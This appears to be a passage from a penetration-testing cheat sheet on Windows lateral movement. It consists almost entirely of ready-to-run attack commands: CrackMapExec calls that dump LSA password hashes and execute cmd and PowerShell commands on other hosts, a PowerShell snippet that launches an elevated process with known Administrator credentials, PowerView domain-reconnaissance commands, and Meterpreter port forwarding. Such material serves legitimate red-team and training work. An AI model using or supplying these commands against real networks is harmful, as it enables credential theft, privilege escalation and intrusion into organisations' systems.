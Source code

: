 ``` bat

:: dump hashes of users
.\crackmapexec <ip> -u <username> -p <password> --lsa

:: execute a cmd.exe command on another host in the network via smbexec
.\crackmapexec <ip> -u <username> -p <password> --exec-method smbexec -x <cmd>

:: excute a PowerShell command directly on another host using exec method fallback
.\crackmapexec <ip> -u <username> -p <password> -X '$PSVersionTable'

:: execute PowerView cmdlet on a host; this example identifies domain admins
.\crackmapexec <ip> -u <username> -p <password> -M powerview -o COMMAND=Get-NetGroupMember
```

* Start an elevated process with known admin credentials via Powershell
```posh
# create password / credentials objects for Administrator account
$SecretPassword = ConvertTo-SecureString '<knownpassword>' -AsPlainText -Force
$Creds = New-Object System.Management.Automation.PSCredential('Administrator', $SecretPassword)

# execute a new process with elevated privileges
Start-Process -FilePath "powershell" -argumentlist "<cmd>" -Credential $Creds
```

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)
``` posh
# begin by dropping PowerView on your target; download entire Recon directory to module path (see $Env:PSModulePath environment variable)

# after downloading, install the module in PowerShell prompt
Import-Module Recon

# view available commands
Get-Command -Module Recon

# find all users currently logged in, in a specific group
Invoke-UserHunter -GroupName <groupname>

# find local admins per machine
Get-NetLocalGroup <ip>

# determine access control on a directory
Get-PathACL <dirname>

# list true users (including derived access) underlying an AD group
Get-NetGroupMember <groupname> -Recurse| ?{!$_.IsGroup}| %{$_.MemberName}| select-object -unique
```

* Port forwarding with Metasploit
```sh
meterpreter> portfwd add -l <attackport> -p <victomport> -r <victimip>
                             ^               ^
where we access locally _____|               |_____ what we want access to on the victim
```
